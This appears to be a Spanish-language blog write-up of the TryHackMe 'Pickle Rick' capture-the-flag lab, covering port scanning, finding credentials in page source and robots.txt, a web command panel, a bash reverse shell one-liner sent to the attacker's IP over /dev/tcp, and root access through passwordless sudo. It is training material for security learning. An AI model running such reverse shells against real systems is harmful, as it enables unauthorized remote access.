 ```yaml
---
title: "Pickle Rick - Try Hack Me"
layout: single
excerpt:
show_date: true
classes: wide
header:
  teaser: "https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/THM/PickleRick/data/pickleRick.png?raw=true"
  teaser_home_page: true
  icon: "assets/images/icons/TryHackMe.png"
categories:
  - Writeup
  - TryHackMe
tags:
  - Enumeración
  - Bash
---
```


<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/THM/PickleRick/data/pickleRickTHMpng.png?raw=true">
</p>

La máquina **Pickle Rick** es una máquina virtual vulnerable de la plataforma **Try Hack Me** con un nivel de dificultad **medio**  desarrollada por **tryhackme** y publicada **10 de marzo del 2019** con un sistema operativo **Linux**.

# Port Scan

  Para empezar, hice un escaneo con la herramienta **Nmap** para encontrar los puertos abiertos disponibles en la máquina con **[Ip:10.10.197.4]** utilizando los parámetros:

  - **-p-:**    Escaneo a toda la gama de puertos (65536).
  - **-n:**     No hacen la resolución del DNS.
  - **-T5:**    El parámetro más agresivo y ruidoso pero más rápido para hacer una exploración rápida.
  - **-v:**     Aumenta el nivel de los mensajes verbose.
  - **--open:** Muestra sólo los puertos con un estatus abierto.
  - **-oG:**    Guarda la el output en formato Grepeable.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/PickleRick/scan/scanPort.png">
  </p>


  Una vez que hicimos el escaneo de puertos con la herramienta **ExtractPort**, vemos que los puertos que destacaron en este caso fueron **22 y 80**:  

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/PickleRick/scan/Ports.png">
  </p>


  Una vez identificados los puertos abiertos, realizaremos un escaneo de versiones y servicios de estos puertos con la herramienta nmap configurando los siguientes parámetros:

  - **-sC:** Script de enumeración básica de sondeo en puertos y servicios alojados.
  - **-sV:** Detección de versiones en servicios alojados en puertos.
  - **-p :** Puertos a inspeccionar.
  - **-oN:** Formatos de Nmap en los que se guardará el archivo.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/PickleRick/scan/PortServ.png">
  </p>

  Ya que el escaneo de versiones y servicios no mostró demasiado empezamos a enumerar un poco mas a nivel web así que entre a la pagina ya que cuenta con un servicio **http** por el puerto **80** al entrar pude ver lo siguiente:

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/PickleRick/scan/web.png">
  </p>

  Curios curioso vemos que esta hablando que necesita conseguir 3 ingredientes los cuales son las **flags** que buscamos y menciona que perdió una contraseña asi que puede ser una pista para nosotros, enumerando el código fuente de la pagina se puede ver a modo comentado lo siguiente:

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/PickleRick/scan/pass.png">
  </p>

  Ahora que tenemos un usuario el cual es **R1ckRul3s** podemos pensar que puede existir un login así que si hacemos enumeración web básica antes de emplear un fuzzing a nivel de rutas podemos probar con el recurso **Robots.txt**:


  En este caso el recurso **Robots.txt** si estaba disponible, recordar que el recursos **Robots.txt** es un recursos que nos muestra rutas existentes a nivel de directorios en las paginas web, la mayoría de las paginas lo deshabilitan ya que es una buena practica, en este caso no se deshabilitó y lo podemos usar para encontrar directorios o recursos sin necesidad de hacer fuerza bruta.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/PickleRick/scan/wubba.png">
  </p>

  Vemos que tiene un recurso llamado **"Wubbalubbadubdub"** pero vemos que si entramos por la pagina web a este supuesto subdirectorio nos marca como **error 404** el cual indica que no existe, ya que vimos esto intentamos buscar otras formas de encontrar rutas así que si buscamos algo clásico como **"login.php"** puede y encontremos algo:

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/PickleRick/scan/log.png">
  </p>

  Excelente ahora que tenemos un login podemos usar la credencial de usuario que encontramos en el código fuente y ya que lo que encontramos en Robots no fue un directorio lo usaremos como contraseña:

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/PickleRick/scan/webcmd.png">
  </p>

# Lateral Movement

  Super bien podemos ver que tenemos un panel el cual se llama **"Command Panel"** lo que es más que obvio que es una gran pista, ingreso un **"whoami"** y vemos que nos responde la maquina como el usuario **"www-data"**

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/PickleRick/scan/whoami.png">
  </p>

  Así que si vemos que tenemos ejecución de comando pues entonces nos entablaremos una shell.
  Para esto me pondré por el puerto 443 en escucha con el comando ```nc -nlvp 443``` y en la web pondré lo siguiente:

  ```bash
    bash -c 'bash -i >& /dev/tcp/[Your IP]/443 0>&1'
  ```

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/PickleRick/instrusion/shell1.png">
  </p>

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/PickleRick/instrusion/shell2.png">
  </p>

  Como vemos en nuestra consola ya tenemos acceso a la maquina y vemos que el mismo directorio se encuentra la primer **flag** y yendo a la ruta **/home** veo que hay dos usuarios, la carpeta de usuario **rick** se puede encontrar la segunda flag:

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/PickleRick/instrusion/flag1.png">
  </p>
  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/PickleRick/instrusion/flag2.png">
  </p>

# Privilege escalation

  Ahora es momento de escalar privilegios para eso vemos si el usuario en el que actualmente estamos tiene algún permiso especial a nivel de **sudo** sin proporcionar contraseña eso lo vemos con el comando ```sudo -l```.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/PickleRick/instrusion/sudo.png">
  </p>

  Y sorprendentemente tenemos a nivel de **sudo** sin proporcionar contraseña permisos absolutos así que podemos spawnearemos una shell como **root** con el siguiente comando:

  ```bash
  sudo /bin/bash
  ```
  Y como vemos ya somos root en la maquina a si que nos dirigimos al directorio de **root** y podemos visualizar la ultima flag y así concluyendo esta maquina.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/PickleRick/instrusion/root.png">
  </p>

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/PickleRick/instrusion/flag3.png">
  </p>
